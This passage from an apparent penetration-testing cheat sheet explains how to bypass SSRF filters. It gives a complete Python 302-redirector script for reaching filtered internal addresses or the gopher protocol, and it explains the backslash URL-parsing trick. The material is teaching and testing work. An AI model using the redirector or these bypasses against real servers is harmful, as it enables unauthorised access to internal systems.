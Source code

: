### Bypass via redirect

It might be possible that the server is **filtering the original request** of a SSRF **but not** a possible **redirect** response to that request.\
For example, a server vulnerable to SSRF via: `url=https://www.google.com/` might be **filtering the url param**. But if you uses a [python server to respond with a 302](https://pastebin.com/raw/ywAUhFrv) to the place where you want to redirect, you might be able to **access filtered IP addresses** like 127.0.0.1 or even filtered **protocols** like gopher.\
[Check out this report.](https://sirleeroyjenkins.medium.com/just-gopher-it-escalating-a-blind-ssrf-to-rce-for-15k-f5329a974530)

```python
#!/usr/bin/env python3

#python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

## Explained Tricks

### Blackslash-trick

The _backslash-trick_ exploits a difference between the [WHATWG URL Standard](https://url.spec.whatwg.org/#url-parsing) and [RFC3986](https://datatracker.ietf.org/doc/html/rfc3986#appendix-B). While RFC3986 is a general framework for URIs, WHATWG is specific to web URLs and is adopted by modern browsers. The key distinction lies in the WHATWG standard's recognition of the backslash (`\`) as equivalent to the forward slash (`/`), impacting how URLs are parsed, specifically marking the transition from the hostname to the path in a URL.

![https://bugs.xdavidhu.me/assets/posts/2021-12-30-fixing-the-unfixable-story-of-a-google-cloud-ssrf/spec\_difference.jpg](https://bugs.xdavidhu.me/assets/posts/2021-12-30-fixing-the-unfixable-story-of-a-google-cloud-ssrf/spec\_difference.jpg)

### Other Confusions
